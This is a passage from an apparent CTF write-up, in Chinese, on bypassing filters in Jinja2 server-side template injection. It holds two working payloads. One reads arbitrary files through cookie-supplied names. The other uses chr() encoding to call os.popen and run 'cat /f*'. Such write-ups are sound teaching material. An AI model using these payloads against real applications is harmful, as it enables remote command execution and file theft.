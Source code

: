 [![在这里插入图片描述](assets/1698900310-cacb155e36fbd99199def59a05aa9a36.png)](https://storage.tttang.com/media/attachment/2022/08/14/b16a7ff1-e7a7-45ca-96fa-79b1f2409c64.png)

```plain
name={{c.__init__.__globals__[request.cookies.a].open(request.cookies.b, request.cookies.c).read()}}
```

[![在这里插入图片描述](assets/1698900310-0f6baa9f255e57e2686539ce72c103a2.png)](https://storage.tttang.com/media/attachment/2022/08/14/42ddf156-5405-403b-a6be-e458948b6ff1.png)  
除此之外，也可以利用 chr 来进行绕过  
payload 的构造同上关即可

```plain
name={% set chr=url_for.__globals__.__builtins__.chr %}{{url_for.__globals__[chr(111)%2bchr(115)].popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(42)).read()}}
```

[![在这里插入图片描述](assets/1698900310-829b4ef018bb0107245d278d03b8487b.png)](https://storage.tttang.com/media/attachment/2022/08/14/427e104f-de26-4a45-a025-c39f2ec6fe2f.png)
